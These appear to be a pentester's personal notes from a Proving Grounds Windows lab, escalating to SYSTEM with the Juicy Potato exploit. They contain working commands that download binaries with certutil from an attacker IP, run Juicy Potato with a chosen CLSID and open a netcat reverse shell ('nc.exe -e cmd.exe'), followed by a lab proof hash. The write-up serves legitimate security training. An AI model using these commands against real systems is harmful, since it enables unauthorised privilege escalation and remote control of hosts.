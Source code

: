 Shit 

![[PG/Windows/attachments/Pasted image 20250703144433.png]]


# Juicy Potato THEN

```
certutil -urlcache -split -f http://192.168.45.152:8888/Juicy.Potato.x86.exe
```

Need to test different CLSIDs to see what will work with the juicy executable
https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_Server_2008_R2_Enterprise/CLSID.list


Here's the command 

```
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c whoami" -t * -c <CLSID HERE>
```

I'll Try this 

```
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c whoami" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
```

Oh snerp!

This worked!

![[PG/Windows/attachments/Pasted image 20250703214100.png]]

# Reverse Shell Through Juicy Potato

Upload a nc.exe binary. 
```
certutil -urlcache -split -f http://192.168.45.152:8881/nc.exe
```

Set up nc listener on port 242 to catch shell

```
.\Juicy.Potato.x86.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\users\Public\nc.exe -e cmd.exe 192.168.45.152 242" -t * -c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
```

This executes successfully 

![[PG/Windows/attachments/Pasted image 20250703214842.png]]

Annnd I got system shell :D 

![[PG/Windows/attachments/Pasted image 20250703214912.png]]

And the proof
a39113f5f2f2810bb563fc089caa64fb


TY: https://medium.com/@Dpsypher/proving-grounds-practice-authby-96e74b36375a

